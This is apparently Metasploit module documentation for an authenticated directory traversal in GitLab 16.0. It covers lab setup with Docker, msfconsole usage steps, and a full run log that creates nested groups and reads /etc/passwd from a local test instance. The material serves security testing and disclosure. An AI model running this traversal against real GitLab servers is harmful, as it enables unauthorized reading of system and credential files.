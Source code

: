 ## Vulnerable Application

GitLab version 16.0 contains an authenticated directory traversal for arbitrary file read as the `gitlab` user.
In order to exploit this vulnerability, a user must be able to create a project and groups.
When exploiting this vulnerability, a group (or subgroup under the group) must be created
for each level of the traversal. If the depth is 11 for the dir traversal, then a group
and 10 sub-groups will be created. Lastly a project is created for that subgroup.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on a Docker image of GitLab 16.0

### Install

A Docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/gitlab_subgroups_file_read`
1. Do: `set rhosts [ip]`
1. Do: `set username [username]`
1. DO: `set password [password]`
1. Do: `run`
1. You should be able to read an arbitrary file.

## Options

### DEPTH

Depth for path traversal (also groups creation). 11 seems pretty safe but it may work with less. Defaults to `11`.

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker GitLab 16.0

```
msf6 > use auxiliary/scanner/http/gitlab_subgroups_file_read
[*] Using auxiliary/scanner/http/gitlab_subgroups_file_read
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set username root
username => root
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set password r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
password => r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > exploit

[+] CSRF Token: wYYZ0Q1TnrrZmqwpAk707emZcXsIlzMawZ7s-HycVHmo668JVMqDb-R8NCVTVEMNlDAWbrIwngXKSH2wWtURzQ
[*] Creating 11 groups
[*] Creating group: OqJVwVlC with parent id: 
[+] CSRF Token: 8X7OT15TxpI36rOIu-ghgVbodK8fRl4Lz-3fqaNH_MmYE3iXB8rbRwoMK4Tq8pZhK0ETuqXh8xTEO07hhQ65fQ
[*] Creating group: 5hYTGpp8 with parent id: 2
[+] CSRF Token: PNnNU0R5iB-57xVW20dBD0FKfb1yMw15tjvHCZICyG9VtHuLHeCVyoQJjVqKXfbvPOMaqMiUoGa97VZBtEuN2w
[*] Creating group: XlpSkZKQ with parent id: 3
[+] CSRF Token: nS0eZJb7gVQM6-HYRPpj14MBhIq4WoObZOFASPC_F1b0QKi8z2KcgTENedQV4NQ3_qjjnwL9LoRvN9EA1vZS4g
[*] Creating group: KQCk8adK with parent id: 4
[+] CSRF Token: yr8EaL1nQdm9aIhpGca1Ay8u2m3oLGqAk_BO23hw02Sj0rKw5P5cDICOEGVI3ALjUoe9eFKLx5-YJt-TXjmW0A
[*] Creating group: xg9hUYPo with parent id: 5
[+] CSRF Token: 5wYo0n-rkMKFMRGlFyjN6knw71WIBDIUUjyLLDSE9UmOa54KJjKNF7jXialGMnoKNFmIQDKjnwtZ6hpkEs2w_Q
[*] Creating group: cNrX6LHf with parent id: 6
[+] CSRF Token: Z4IipgGhLQixQu8cbyNznk2pIj0udxMCgGKHaEzqkw4O75R-WDgw3YykdxA-OcR-MABFKJTQvh2LtBYgaqPWug
[*] Creating group: Mg4MESRy with parent id: 7
[+] CSRF Token: 4g209zNkQLg2Mf4RPMsSOjIGD-f2jaJrP_Fa4iYQRLaLYAIvav1dbQvXZh1t0aXaT69o8kwqD3Q0J8uqAFkBAg
[*] Creating group: 7b2cIgyZ with parent id: 8
[+] CSRF Token: MbKcsl5RuiynfU8JyJ1iT_mBKKqfAWpuM7LEVjTTmPBY3ypqB8in-Zqb1wWZh9WvhChPvyWmx3E4ZFUeEprdRA
[*] Creating group: EDkbB7Mw with parent id: 9
[+] CSRF Token: FbcBF0FcEy1vhn-ahOLHgz5wPx952kmwDNT2Qfte-Ud82rfPGMUO-FJg55bV-HBjQ9lYCsN95K8HAmcJ3Re88w
[*] Creating group: 4L2kbTKx with parent id: 10
[+] CSRF Token: iSsK-buEQzOnykZ_DmtRo2_4RV6HSix8nLEpDN9WeSjgRrwh4h1e5pos3nNfceZDElEiSz3tgWOXZ7hE-R88nA
[*] Creating group: UrW6NUYW with parent id: 11
[+] CSRF Token: _Md66xoUbGn3lOKAkgDR9p30KKPH6sDEBckrOfE8LNaVqswzQ41xvMpyeozDGmYW4F1Ptn1NbdsOH7px13VpYg
[*] Creating project 8tXCf26j
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230529000533_default_127.0.0.1_Gitlabfile_212326.txt
[*] Deleting group OqJVwVlC
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
